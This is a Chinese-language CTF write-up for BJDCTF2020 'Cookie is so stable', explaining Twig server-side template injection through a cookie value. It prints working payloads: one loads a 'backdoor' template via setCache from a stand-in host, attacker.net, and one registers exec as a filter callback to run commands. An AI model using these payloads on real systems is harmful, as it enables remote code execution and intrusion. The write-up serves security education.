

# \[BJDCTF2020]Cookie is so stable

## \[BJDCTF2020]Cookie is so stable

## 考点

* Twig模板注入

## wp

访问flag.php，它Cookie中的user处存在SSTI

.png>)

通过如下方式判断出SSTI类型为Twig



Twig 提供了一个`_self`，它有一个`env`属性，是[Twig\_Environment](https://github.com/twigphp/Twig/blob/e22fb8728b395b306a06785a3ae9b12f3fbc0294/lib/Twig/Environment.php)对象。`Twig_Environment`对象有一个`setCache`方法可用于更改Twig尝试加载和执行编译模板（PHP文件）的位置。因此可以通过将缓存位置设置为远程服务器来引入远程文件包含漏洞，前提是开启了allow\_url\_include。

```
{{_self.env.setCache("ftp://attacker.net:2121")}}
{{_self.env.loadTemplate("backdoor")}}
```

另外，`Twig_Environment`对象还有个调用过滤器的函数 [getFilter()](https://github.com/twigphp/Twig/blob/e22fb8728b395b306a06785a3ae9b12f3fbc0294/lib/Twig/Environment.php#L874)它调用了call\_user\_function 方法

```php
public function getFilter($name)
{
        [snip]
        foreach ($this->filterCallbacks as $callback) {
        if (false !== $filter = call_user_func($callback, $name)) {//注意这行
            return $filter;
        }
    }
    return false;
}

public function registerUndefinedFilterCallback($callable)
{
    $this->filterCallbacks[] = $callable;
} php
```

只要把exec作为回调函数即可

```
{{_self.env.registerUndefinedFilterCallback("exec")}}
{{_self.env.getFilter("id")}}
```

## 小结

1. [一篇文章带你理解漏洞之SSTI漏洞](https://www.k0rz3n.com/2018/11/12/%E4%B8%80%E7%AF%87%E6%96%87%E7%AB%A0%E5%B8%A6%E4%BD%A0%E7%90%86%E8%A7%A3%E6%BC%8F%E6%B4%9E%E4%B9%8BSSTI%E6%BC%8F%E6%B4%9E/)
